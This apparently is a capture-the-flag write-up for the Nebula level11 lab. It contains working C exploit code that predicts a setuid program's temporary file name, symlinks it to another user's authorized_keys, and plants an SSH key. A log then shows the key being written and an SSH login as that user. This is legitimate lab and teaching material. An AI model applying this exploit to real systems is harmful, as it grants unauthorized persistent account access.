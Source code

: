 - Generate the file with same as getrand()
- Keep ssh keys to buffer and print out with `Content-Length` header
- symlink between opened random file and .ssh/authorized_keys

exploit.c
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

void getrand(char **path, int pid, int time)
{
    char *tmp;
    int fd;

    srandom(time);

    tmp = getenv("TEMP");

    asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
        'A' + (random() % 26), '0' + (random() % 10),
        'a' + (random() % 26), 'A' + (random() % 26),
        '0' + (random() % 10), 'a' + (random() % 26));
}

int main(int argc, char **argv)
{
    char line[256];
    char buf[2048] = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhyg5iR9ANYf1PNIosO0g/I8gZTx8jw0DONp/5cYRTtxdeC5t7ZTdv7xFpNLCwWw14DUtirRpZ0Wb/oANirwBveHCq/RVK4nfGVbrt0gmFhbJsCA76xsbNGgW0B3E/3MnJ7RJydUuigw/WhM50DPO2Y13Zt4XO01735D8qALQnZmhOVuACxvmFZlq04nHpDE49GViIsi7v8bKocUtc5YAjI58MmBHLCdI0Dw92OnK/K6Q/lYqAx6nQQB1wZijsmWkc+02BNWlxRLhSzREJtguES2aam5dHHjwyRGXIRJfc9N0eLSnLAuUa6NUADrGlm/o2Pw5WGY8prCmZGDKeKAr3 level11@nebula";

    int pid;
    int fd;
    char *path;
    FILE* stream;

    pid = getpid() + 1; // Pipe Trick
    getrand(&path, pid, time(NULL));
    symlink("/home/flag11/.ssh/authorized_keys", path);
    fprintf(stdout, "Content-Length: 2048\n%s", buf);
}
```
Test 
```
level11@nebula:~$ gcc -o exploit exploit.c
level11@nebula:~$ ./exploit | /home/flag11/flag11
blue = 2048, length = 2048, pink = 395
blue = 1653, length = 2048, pink = 0
flag11: fread fail(blue = 1653, length = 2048): Operation not permitted
level11@nebula:~$ ls -al /home/flag11/.ssh/authorized_keys
-rw------- 1 flag11 level11 395 2020-05-18 13:28 /home/flag11/.ssh/authorized_keys
level11@nebula:~$ ssh -i .ssh/id_rsa flag11@192.168.43.229
The authenticity of host '192.168.43.229 (192.168.43.229)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.43.229' (ECDSA) to the list of known hosts.

      _   __     __          __
```